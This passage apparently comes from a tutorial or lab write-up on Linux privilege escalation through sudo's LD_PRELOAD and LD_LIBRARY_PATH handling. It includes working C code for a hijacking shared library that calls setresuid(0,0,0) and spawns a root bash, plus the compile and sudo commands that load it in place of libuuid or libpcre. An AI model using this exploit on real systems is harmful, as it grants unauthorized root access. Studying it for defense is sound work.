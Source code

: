 Compilation:

```txt
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

* `-fPIC`, [required](https://www.cprogramming.com/tutorial/shared-libraries-linux-gcc.html) when compiling a shared library,
* `-shared`, [required](http://www.microhowto.info/howto/build_a_shared_library_using_gcc.html) when compiling a shared library,
* `-nostartfiles`, not use the standard system startup functions nor link the code containing those functions

That's a powerful one.

![2021-09-26-10-05-09.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632735061473/sjqN0UjGu.png)

[Back to top](#contents) ⤴

## Exploiting LD_LIBRARY_PATH

![2021-09-26-10-05-53.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632735055890/OKD1EWeSh.png)


```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

> Notice that we are **not** using the `-nostartfiles` switch in this scenario

```txt
$ rm /tmp/*.so.*
$ gcc -fPIC -shared -o /tmp/libuuid.so.1 /home/user/tools/sudo/library_path.c
$ sudo LD_LIBRARY_PATH=/tmp apache2
```

![2021-09-26-11-13-09.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632735047915/paEFwmUtq.png)

Ok, but what could happen if we choose a different library?

```sh
#!/bin/sh
rm /tmp/*.so.*
gcc -fPIC -shared -o /tmp/libpcre.so.3 /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
```
![2021-09-26-11-49-43.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632735095818/5oqhPCeLd.png)
